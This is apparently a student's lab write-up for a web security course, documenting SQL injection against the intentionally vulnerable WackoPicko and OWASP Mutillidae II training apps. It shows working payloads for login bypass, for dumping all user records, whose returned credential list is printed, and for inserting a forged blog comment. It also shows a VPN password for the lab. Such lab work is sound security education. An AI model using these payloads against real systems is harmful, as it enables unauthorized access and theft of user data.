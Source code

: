 # Assignment lab 2

### Hacknet server connection
- open VM (Kali Linux)
- open terminal in `/Desktop/c22`
- run `sudo openvpn hacknet.ovpn`
- introduce password received on email (`H8kZ8j`)
- access link `https://10.200.10.1/hnet` in browser
- for this assignment I've accessed the server with ip address `10.200.122.18`
- it should look something like this
![accessing hacknet server](./accessing_hacknet_server.png)
I will go to the marked projects for completing the assignment

## 1. Create a SQL injection attack on the OWASP WackoPicko application to bypass the authentication step.

Source of inspiration: [github repo for WackoPicko](https://github.com/adamdoupe/WackoPicko)

I will follow the steps from section `Exploit 3: bypass authentication` from [laboratory material](./WS%20-%20Assignment%202.pdf)

- started `Tamper Data`
- Clicked `Login`

![Login page](./bypass_auth_0.png)

- check the code for authentication (and figure out how can be bypassed)
- login page code of interest:
```
...
if ($user = Users::check_login($_POST['username'], $_POST['password'],
True))
...
 ```

- check_login code of interest

``` 
...
function check_login($username, $pass, $vuln = False)
{
if ($vuln)
{
$query = sprintf("SELECT * from `users` where `login` like '%s' and
`password` = SHA1( CONCAT('%s', `salt`)) limit 1;",
$username,
mysql_real_escape_string($pass));
}
...
```

Vulnerable part: *where login like '%s'* → we don't need to know credentials for a specific user, we can put
the % pattern to match the login word and append to it a string that represents a true state and for the
password we can insert any string.
The input that I used is:
- username: %' or '1'='1
- password: parola

![bypass auth 1](./bypass_auth_1.png)

- pressing the `login` button

![bypass auth 2](./bypass_auth_2.png)

## 2. Create a SQL injection attack on the OWASP Mutillidae II application, section OWASP 2013 -> A1 Injection (SQL) -> SQLi - Extract data -> User Info (SQL) that displays information about all users in the database

![index page](./index_page_asg_2.png)

- go to the specified path:

![specified page](./index_page_asg_3.png)

- first attempt:
    - username: `admin`
    - password: `' OR '1'='1'`

![blog page](./index_page_asg_4.png)

- credentials used: 
    - username: `' OR '1'='1`
    - password: `' OR '1'='1`

![user info page](./index_page_asg_5.png)

Results:

``` 
Username=admin
Password=admin
Signature=g0t r00t?

Username=adrian
Password=somepassword
Signature=Zombie Films Rock!

Username=john
Password=monkey
Signature=I like the smell of confunk

Username=jeremy
Password=password
Signature=d1373 1337 speak

Username=bryce
Password=password
Signature=I Love SANS

Username=samurai
Password=samurai
Signature=Carving fools

Username=jim
Password=password
Signature=Rome is burning

Username=bobby
Password=password
Signature=Hank is my dad

Username=simba
Password=password
Signature=I am a super-cat

Username=dreveil
Password=password
Signature=Preparation H

Username=scotty
Password=password
Signature=Scotty do

Username=cal
Password=password
Signature=C-A-T-S Cats Cats Cats

Username=john
Password=password
Signature=Do the Duggie!

Username=kevin
Password=42
Signature=Doug Adams rocks

Username=dave
Password=set
Signature=Bet on S.E.T. FTW

Username=patches
Password=tortoise
Signature=meow

Username=rocky
Password=stripes
Signature=treats?

Username=tim
Password=lanmaster53
Signature=Because reconnaissance is hard to spell

Username=ABaker
Password=SoSecret
Signature=Muffin tops only

Username=PPan
Password=NotTelling
Signature=Where is Tinker?

Username=CHook
Password=JollyRoger
Signature=Gator-hater

Username=james
Password=i<3devs
Signature=Occupation: Researcher

Username=user
Password=user
Signature=User Account

Username=ed
Password=pentest
Signature=Commandline KungFu anyone?
```

## 3. Create a SQL injection attack on the OWASP Mutillidae II application, section OWASP 2013 -> A1 Injection (SQL) -> SQLi - Insert Injection -> Add to your blog with the aim to insert a comment without logging in to the site. Change the author of the comment so that it is not anonymous. Display comments inserted by SQL injection

- path:

![blog page](./index_page_asg_6.png)
![blog page](./index_page_asg_7.png)

- trying to post the message `' OR '1'='1'`

![blog error page](./index_page_asg_8.png)

- trying the following input:

`post_test' , now()), ('my_user', 'my_comment', now()) -- `

- post
- going to view all blogs: click `View blogs` near table with current user blogs
- select `Show all` from `Please Choose Author` then press `View Blog Entries`
Here is the entry posted with `my_user` username.
![blog error page](./index_page_asg_9.png)